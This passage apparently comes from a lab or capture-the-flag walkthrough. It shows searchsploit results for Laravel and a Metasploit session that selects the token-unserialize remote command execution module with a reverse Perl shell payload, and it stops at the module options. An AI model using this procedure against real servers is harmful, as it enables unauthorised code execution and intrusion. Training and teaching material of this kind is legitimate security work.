 - On examining we can notice that server is runnning `laravel`, and on `searchsploit` found a metasploit module for code execution  (`token Unserialize Remote Command Execution`)

```bash
$ searchsploit laravel
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Laravel - 'Hash::make()' Password Truncation Security                                                                | multiple/remote/39318.txt
Laravel 8.4.2 debug mode - Remote code execution                                                                     | php/webapps/49424.py
Laravel Administrator 4 - Unrestricted File Upload (Authenticated)                                                   | php/webapps/49112.py
Laravel Log Viewer < 0.13.0 - Local File Download                                                                    | php/webapps/44343.py
Laravel Nova 3.7.0 - 'range' DoS                                                                                     | php/webapps/49198.txt
PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)              | linux/remote/47129.rb
UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                                                            | php/webapps/48166.txt
UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload                                                   | php/webapps/46389.py
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                       
```

- Running metasploit

```bash
msf6 > search laravel

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/laravel_token_unserialize_exec

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   APP_KEY                     no        The base64 encoded APP_KEY string from the .env file
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```